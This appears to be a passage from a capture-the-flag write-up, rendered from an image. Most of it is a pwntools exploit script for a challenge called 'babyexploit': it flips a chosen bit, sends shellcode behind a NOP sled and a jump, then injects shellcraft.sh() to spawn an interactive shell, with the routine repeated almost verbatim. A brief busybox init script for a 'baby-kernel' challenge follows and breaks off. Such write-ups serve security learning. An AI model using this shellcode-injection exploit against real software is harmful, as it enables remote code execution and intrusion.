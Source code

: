 ```python
    xor rdi, rdi
    mov rsi, 0x4000d7
    mov edx, 0x100
    syscall
    """)
    payload = sc.ljust(0x27, b'\x90')
    payload += b"\xeb\xd7\x90"
    payload = encode(payload)
    r.sendafter('Enter the Key to win: ', payload)
    sc = b'\x00'*(0xeb-0xd7) + asm(shellcraft.sh())
    r.send(sc)
    r.interactive()

def all():
    r = process('./babyexploit.py')
    r.sendlineafter('Please enter the byte-offset you want to flip (0x80-0x139): ', '0xbc')
    r.sendlineafter('Please enter the bitposition you want to flip at byte-offset(7-0): ', '0x3')
    sc = asm("""
    xor rax, rax
    xor rdi, rdi
    mov rsi, 0x4000d7
    mov edx, 0x100
    syscall
    """)
    payload = sc.ljust(0x27, b'\x90')
    payload += b"\xeb\xd7\x90"
    payload = encode(payload)
    r.sendafter('Enter the Key to win: ', payload)
    sc = b'\x00'*(0xeb-0xd7) + asm(shellcraft.sh())
    r.send(sc)
    r.interactive()

if len(sys.argv) > 1:
    if sys.argv[1] == 'show':
        show()
    elif sys.argv[1] == 'gen':
        gen()
    elif sys.argv[1] == 'run':
        run('/tmp/tmpor_jekei')
    elif sys.argv[1] == 'all':
        all()
```

### baby-kernel

init:

```bash
#!/bin/busybox sh
# /bin/sysinfo

/bin/busybox --install /bin
/bin/mkdir /sbin
/bin/busybox --install /sbin

export PATH="/bin;$PATH"
export LD_LIBRARY_PATH="/lib"

#for util in dropbear dbclient dropbearkey dropbearconvert; do
#	ln -s /bin/dropbearmulti /bin/$util
#done

mkdir -p /dev /sys /proc /tmp
mkdir -p /dev/pts
```